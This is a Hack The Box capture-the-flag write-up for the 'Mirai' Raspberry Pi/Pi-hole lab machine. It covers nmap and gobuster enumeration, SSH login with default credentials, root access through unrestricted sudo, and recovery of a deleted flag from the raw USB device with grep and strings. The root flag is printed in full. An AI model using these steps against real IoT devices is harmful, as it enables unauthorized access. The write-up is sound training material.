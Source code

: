`Box: Linux`
`Level: Easy`
### Index
1. [`Box Info`](#`Box%20Info`)
2. [`Initial Nmap Scan`](#`Initial%20Nmap%20Scan`)

### `Box Info`
```
Mirai demonstrates one of the fastest-growing attack vectors in modern times; improperly configured IoT devices. This attack vector is constantly on the rise as more and more IoT devices are being created and deployed around the globe, and is actively being exploited by a wide variety of botnets. Internal IoT devices are also being used for long-term persistence by malicious actors.
```

### `Initial Nmap Scan`
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.10.48
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-title: Website Blocked
|_http-server-header: lighttpd/1.4.35
1333/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
|_http-favicon: Plex
|_http-title: Unauthorized
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
```

### `Web Enumeration`

The URL `http://10.10.10.48/` returns the blank page but looking at the Burp, There was one out of the box HTTP Response Header pops-up.
![](Mirai_Web0.png)
`X-Pi-Hole: A black hole for Internet advertisements`

###### `GoBuster on port 80`
```
# gobuster dir -u http://10.10.10.48/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
/versions             (Status: 200) [Size: 18]
Progress: 220560 / 220561 (100.00%)
```
![](Mirai_Web1.png)\\

I tried few passwords here but none of them was working.
`The Pi-hole® is a DNS sinkhole that protects your devices from unwanted content, without installing any client-side software.`
![](Mirai_Web2.png)
Looking on the Pi-Hole Forum, I found one of the creds. Although this wasn't working on the Web but it worked on SSH.
### `Initial SSH as Pi User & got User Flag`
```
# ssh pi@10.10.10.48
pi@raspberrypi:~ $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
pi@raspberrypi:~/Desktop $ cat user.txt
ff837707**************
```
Get the user  flag.

### `Privilege Escalation`

Running `sudo -l` gives me the following result.
```
pi@raspberrypi:/media/usbstick $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

It means I can run any command just providing the `sudo`. At this stage, I felt like I owned it but the story unfold in a manner that I didn't expected AT ALL! Just follow the command below

```
pi@raspberrypi:/media/usbstick $ sudo cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

Okay so the `root.txt` does not contain the flag. it says the original root.txt is lost. Let's go to `/media` and find out.

```
pi@raspberrypi:/media/usbstick $ ls -la
total 18
drwxr-xr-x 3 root root  1024 Aug 14  2017 .
drwxr-xr-x 3 root root  4096 Aug 14  2017 ..
-rw-r--r-- 1 root root   129 Aug 14  2017 damnit.txt
drwx------ 2 root root 12288 Aug 14  2017 lost+found

pi@raspberrypi:/media/usbstick $ cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Okay so the files are gone. We will have to recover the file from this mounted USB stick drive.

### `Recover Deleted Flag (Files)`

When the file gets deleted, the structure of the filesystem removes the metadata for that file that includes the `timestamps`, `filename` and `pointer to where the raw file is on the disk`. The DELETE operation does not go to that point on the disk and do anything to cleanup the data such as writing the null character in a file content. That means there is a possibility that the content of the `root.txt` file is still present on the disk even though the filesystem no longer knows of a file by that name.

Looking at the following `lsblk` command output, We know that the file `/media/usbstick` belongs to the raw disk `sdb`.
```
i@raspberrypi:/media/usbstick $ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
```

We know that our flag is 32 character long. We can use the following simple `grep` command to recover the flag.
```
pi@raspberrypi:/dev $ sudo grep -aPo '[a-fA-F0-9]{32}' /dev/sdb
3d3e483143ff12ec505d026fa13e020b
```

`-a: Process a Binary file as if it was a text file`. 
`-P: Interpret the Pattern as the Perl Regular Expression`
`-o: Print only the matched parts of the matching lines with each such part as a separate output line.`

We got our flag. But There are other ways too. That is using `strings` Command.

```
pi@raspberrypi:/dev $ sudo strings /dev/sdb 
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```

There we have a flag in the output. if you are unsure about building the grep pattern.

Get your root flag.


